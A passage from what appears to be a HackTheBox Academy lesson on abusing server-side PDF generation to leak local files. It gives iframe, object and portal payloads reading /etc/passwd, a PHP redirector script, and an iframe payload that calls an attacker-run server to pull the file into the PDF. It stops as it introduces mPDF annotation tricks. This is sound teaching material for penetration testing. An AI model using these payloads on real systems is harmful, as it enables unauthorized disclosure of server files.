 ![image](8GIABMkwBbBT.png)

#### Without JavaScript Execution

If the backend does not execute our injected JavaScript code, we must use other HTML tags to display local files. We can try the following payloads:

```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

```

However, doing so in our test environment only displays an empty iframe:

![image](OgRBndpbwax1.png)

Fortunately, there is one more trick we can do in combination with iframes. As discussed previously in the `SSRF` section, some PDF generation libraries display the response to requests in iframes. However, as we can see in the screenshot above, sometimes, we cannot use iframes to access files directly. Nevertheless, we can use an `src` attribute that points to a server under our control and redirects incoming requests to a local file. If the library is misconfigured, it may then display the file. We can run the following PHP script on our server to do so. The script responds to all incoming requests with an HTTP 302 redirect by setting the `Location` header to a local file using the `file` protocol:

```php
<?php header('Location: file://' . $_GET['url']); ?>

```

We can then inject the following payload, where the IP points to the server we are running the redirector script on:

```html
<iframe src="http://172.17.0.1:8000/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>

```

After doing so, the generated PDF now contains the leaked file:

![image](VV81yP1rlBjk.png)

For more details on LFI exploitation, check out the [File Inclusion module](https://academy.hackthebox.com/module/details/23).

#### Annotations

While we have already discussed how to include local files in the PDF pages, PDF files support advanced features like `annotations` and `attachments`, which we can also use to leak local files on the server. This is particularly interesting if the previously discussed payloads do not work.

For example, consider the PDF generation library `mPDF`, which supports annotations via the `<annotations>` tag. We can use annotations to append files to the generated PDF file by injecting a payload like the following:
